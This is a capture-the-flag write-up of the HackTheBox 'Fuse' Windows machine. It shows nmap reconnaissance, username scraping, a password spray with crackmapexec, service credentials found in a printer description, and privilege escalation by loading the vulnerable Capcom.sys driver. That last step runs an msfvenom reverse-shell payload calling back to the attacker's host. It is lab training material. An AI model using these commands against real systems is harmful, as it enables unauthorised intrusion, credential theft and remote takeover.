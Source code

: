 ```yaml
---
title: "HackTheBox: Fuse - OSCP Prep"
categories:
  - CTF Writeups
toc: true
---
```


This is a 'medium' rated HTB Windows challenge featuring an interesting PE technqiue, Bring Your Own Vulnerable Driver (BYOVD).

# Reconnaissance

## Nmap

`nmap -p- -sV -sC -T4 10.10.10.193 -Pn -n -o full_thorough.log
`
```
PORT      STATE SERVICE      VERSION
53/tcp    open  domain       Simple DNS Plus
80/tcp    open  http         Microsoft IIS httpd 10.0
|_http-title: Site doesn't have a title (text/html).
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
88/tcp    open  kerberos-sec Microsoft Windows Kerberos (server time: 2023-10-14 16:25:12Z)
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
389/tcp   open  ldap         Microsoft Windows Active Directory LDAP (Domain: fabricorp.local, Site: Default-First-Site-Name)
445/tcp   open  ���7�U       Windows Server 2016 Standard 14393 microsoft-ds (workgroup: FABRICORP)
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: fabricorp.local, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf       .NET Message Framing
49666/tcp open  msrpc        Microsoft Windows RPC
49667/tcp open  msrpc        Microsoft Windows RPC
49675/tcp open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
49676/tcp open  msrpc        Microsoft Windows RPC
49680/tcp open  msrpc        Microsoft Windows RPC
49698/tcp open  msrpc        Microsoft Windows RPC
Service Info: Host: FUSE; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2023-10-14T16:26:02
|_  start_date: 2023-10-14T16:19:11
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: Fuse
|   NetBIOS computer name: FUSE\x00
|   Domain name: fabricorp.local
|   Forest name: fabricorp.local
|   FQDN: Fuse.fabricorp.local
|_  System time: 2023-10-14T09:26:05-07:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: required
|_clock-skew: mean: 2h33m02s, deviation: 4h02m32s, median: 13m00s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
```

From this scan we can add `fabricorp.local` and `fuse.fabricorp.local` to our hosts file.

### SMB

Let's try see if guest/null authentication is enabled.

![1](/assets/images/Fuse/Pasted image 20231014172549.png)

It looks like credentials `:` don't give an error. Let's see if we can enumerate any information from this. 

![[/assets/images/Fuse/Pasted image 20231014172649.png]]

No luck!

### Web

The webserver on port 80 is hosting a PaperCut Print Logging service. From this page we can discover a list of usernames.

![2](/assets/images/Fuse/Pasted image 20231014172739.png)
![3](/assets/images/Fuse/Pasted image 20231014172814.png)
![4](/assets/images/Fuse/Pasted image 20231014172823.png)
![5](/assets/images/Fuse/Pasted image 20231014172832.png)


```
sthompson
bhult
administrator
tlavel
pmerton
bnielson
```

# Initial Access

## AS-REPRoasting

We can check if any of these users are AS-REPRoastable or have the AD attribute `Don't require Kerberos pre-authentication` set. This would allow us to recover a password hash and possibly crack it.

![6](/assets/images/Fuse/Pasted image 20231014173153.png)

No luck. Instead we can try a password spray attack.

## Password Spray

First we need to generate a wordlist. You can create a custom wordlist with `hashcat` rules, or use a tool like `cewl` to crawl the webserver and scrape for possible passwords.

`cewl http://fuse.fabricorp.local/papercut/logs/html/index.htm -d 5 -m 5 -x 12 --with-numbers | tee pwds.txt`

Now with the wordlist generated we can attempt to password spray.

`crackmapexec smb fabricorp.local -u users.txt -p pwds.txt`

There was a lot of interesting results for password `Fabricorp01`. It looks like multiple users: `bhult`, `tlavel` and `bnielson` all have this password, but it's expired.

![7](/assets/images/Fuse/Pasted image 20231014180419.png)

We can change passwords using the `impacket-smbpasswd` tool!

![8](/assets/images/Fuse/Pasted image 20231014181036.png)

After changing the password we can login to RPCClient and use the `enumdomusers` command to dump all domain users.

![9](/assets/images/Fuse/Pasted image 20231023130616.png)

We can see there are two printing related user accounts (`svc-print`, `svc-scan`). Let's use the `enumprinters` to see if there is any domain joined printers.

![10](/assets/images/Fuse/Pasted image 20231023145417.png)

Interesting. In the description of the printer we can see credentials `$fab@s3Rv1ce$1`. Let's password spray with this now.

![11](/assets/images/Fuse/Pasted image 20231023145524.png)

![12](/assets/images/Fuse/Pasted image 20231023145540.png)

It looks like `$fab@s3Rv1ce$1` works as a password for both `svc-print` & `svc-scan` over SMB, and also `svc-print` can WinRM onto the box. In `svc-print`'s Desktop folder we can recover the `user.txt` flag!

# Privilege Escalation

Investigating the permissions of the `svc-print` user reveals we have the ability to load drivers with the `SeLoadDriverPrivilege`. 

![13](/assets/images/Fuse/Pasted image 20231024122149.png)

## BYOVD

We can perhaps use a Bring Your Own Vulnerable Driver (BYOVD) technique. BYOVD is an attack vector where adversaries will bring a legitimate signed vulnerable driver onto a comprimised machine, load the driver, and then exploit that drivers vulnerability to execute code in kernel mode with high permissions. Because the driver will be signed, and is not inherently malicious, it is a good defence evasion technique. The `Capcom.sys` driver I'll be using is well known, and will blacklisted by multiple security vendors making it a poor choice if defence evasion is priority. For a list of commonly abused drivers check out [Loldrivers](https://www.loldrivers.io/).

First, I'll use the [EoPLoadDriver](https://github.com/TarlogicSecurity/EoPLoadDriver) tool to load our vulnerable driver, `Capcom.sys`. I cloned the `EoPLoadDriver` repositry and compiled the C++ code to make a x64 executable `LoadDrivers.exe`.

![14](/assets/images/Fuse/LoadDriver.png)

Now with the vulnerable driver `Capcom.sys` loaded, we can exploit it!

I started by generating a reverse shell payload:

`msfvenom -p windows/shell_reverse_tcp LPORT=4444 LHOST=10.10.x.x -f exe -o rev.exe`

With this generated we can clone the exploit source code from [here](https://github.com/tandasat/ExploitCapcom), and edit line 410 from the source code to run our payload, `rev.exe`, upon execution of the Capcom exploit. 

![15](/assets/images/Fuse/Source.png)

![16](/assets/images/Fuse/exploit.png)

![17](/assets/images/Fuse/pe.png)

From the above we can see the reverse-shell listner got a succesful call-back and we got rewarded with a shell as `nt authority\system`!

Hope you enjoyed this writeup!